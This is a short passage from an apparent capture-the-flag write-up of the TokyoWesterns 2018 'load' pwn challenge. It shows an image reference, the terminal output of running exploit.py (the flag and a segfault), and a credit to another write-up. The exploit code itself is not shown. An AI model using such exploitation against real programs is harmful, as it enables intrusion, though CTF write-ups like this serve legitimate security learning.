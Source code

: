 and when we run it:

```
$	python exploit.py
[+] Starting local process './load': pid 29020
flag{g0ttem_b0yz}

[*] Switching to interactive mode
Load file Service
Input file name: Input offset: Input size: Load file complete!
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
None
[*] Process './load' stopped with exit code -11 (SIGSEGV) (pid 29020)
```

Just like that, we got the flag!

Once again this writeup is based off of this great writeup: https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-load-pwn/